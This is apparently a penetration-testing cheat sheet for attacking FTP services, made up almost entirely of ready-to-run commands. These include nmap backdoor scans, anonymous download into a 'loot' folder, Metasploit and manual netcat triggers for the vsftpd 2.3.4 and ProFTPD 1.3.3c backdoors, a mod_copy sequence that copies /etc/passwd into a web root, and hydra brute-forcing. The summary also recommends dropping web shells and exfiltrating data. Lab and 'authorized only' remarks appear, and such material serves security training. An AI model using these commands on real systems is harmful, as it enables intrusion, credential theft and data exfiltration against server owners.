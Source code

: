 ## Minimal cheat sheet (one-screen flow)
```
# 1) Discover + enumerate
nmap -p21 -sV -sC -Pn <IP>
nmap -p21 -Pn --script=ftp-anon,ftp-syst,ftp-vsftpd-backdoor,ftp-proftpd-backdoor -sV <IP>

# 2) Anonymous?
curl -s --list-only ftp://anonymous:anonymous@<IP>/
wget -r -np -nH -P loot/ftp ftp://anonymous:anonymous@<IP>/

# 3) Writable?
echo test > test.txt
curl -T test.txt ftp://anonymous:anonymous@<IP>/

# 4) vsftpd 2.3.4
msfconsole -q -x "use exploit/unix/ftp/vsftpd_234_backdoor; set RHOSTS <IP>; run"
# or manual:
printf "USER u:)\r\nPASS p\r\n" | nc -nv <IP> 21; nc -nv <IP> 6200

# 5) ProFTPD 1.3.3c
msfconsole -q -x "use exploit/unix/ftp/proftpd_133c_backdoor; set RHOSTS <IP>; run"

# 6) ProFTPD mod_copy check/use
printf "USER anonymous\r\nPASS anonymous@\r\nSITE HELP\r\nQUIT\r\n" | nc -nv <IP> 21
printf "USER anonymous\r\nPASS anonymous@\r\nSITE CPFR /etc/passwd\r\nSITE CPTO /var/www/html/passwd.txt\r\nQUIT\r\n" | nc -nv <IP> 21

# 7) Brute force (authorized only)
hydra -L users.txt -P passwords.txt -f -V -I -t 4 ftp://<IP>
```

## Summary
- Enumerate FTP thoroughly with Nmap and NSE; confirm service/version and check for anonymous access and known backdoors.
- Quick wins: anonymous read/write; vsftpd 2.3.4 backdoor; ProFTPD 1.3.3c backdoor; ProFTPD mod_copy file placement.
- Use Metasploit modules for reliable exploitation in labs; fall back to manual techniques where applicable.
- If no direct vuln, try credential attacks (authorized) and then leverage FTP access to drop web shells or exfiltrate valuable data.
- Always verify paths and permissions, and pivot to other services (HTTP/SSH) as you gain access.